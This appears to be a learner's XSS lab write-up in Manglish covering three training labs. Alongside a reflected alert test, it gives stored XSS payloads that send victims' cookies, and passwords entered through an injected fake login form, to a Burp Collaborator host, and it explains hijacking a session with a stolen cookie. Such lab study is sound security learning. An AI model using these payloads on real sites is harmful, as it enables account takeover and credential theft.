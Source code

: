 ## XSS:
-->You can confirm most kinds of XSS vulnerability by injecting a payload that causes your own browser to execute some arbitrary JavaScript

    Lab-1(Reflected XSS into HTML context with nothing encoded)
-->ivide lab il search functionil reflected xss und
-->so searchil ->`<script>alert(1)</script>` koduth search chythal xss trigger aakum

=============================================================

    Lab-2(Exploiting cross-site scripting to steal cookies)
-->ivide namal stored xss aan chyunath
-->ivide ethengilum blog open chyuka enit comment idanam
-->ithil comment: enna option il ee payload idanam:
 <script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>

enit baaki parameter fill chyth submit chyanam
-->athin shesham collaborator client il poi poll now adichal aa sitel il vere users vanath kanam.so avarude session:cookie eduthit proxy intercept on koduthit home button click chyuka enit athile session: cookie replace chyuka enit forward adichal namal aa user aayi marum.

=============================================================

      Lab-3(Exploiting cross-site scripting to capture passwords)
-->ividem stored xss aan namal chyunath
-->ivide njan lab ile karyam chyunathin mumb just commentil ingane add chyth <script>alert("hai"')</script> test chyth noki.enit veendum aa blog il poyapol ath trigger akunund
-->so ini namuk vendath enthenal chela users avarude password manager il passwords store chyth vekum so ath namuk ee xss vazhi edukanam.ath engane enal namal oru site il login chyumbol athil username,password oke html attribute aaya name="password" ,name="username" enn koduthitundakum.athil aan ath label chyunath.so namal login chythathin shesham inspect->console->il poi document.password ennadichal kanam.ithan namuk vendath
-->so puthiya oru blog il poi ee payload comment aayi add chyanam:

<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">

enit baki parameter fill chyanam.enit post comment click chyuka 
-->ini collaborator il poi poll now adikumbol aa page view chytha users inte password namuk kitum (if it is stored in password manager)
-->athin collaborator il HTTP eduthit request to collaborator edukuka athil undakum aa particular user use chytha request athil thazhe aayi administrator:ozczdu8xsmmkjpqf07hv  enn kanam.aayi

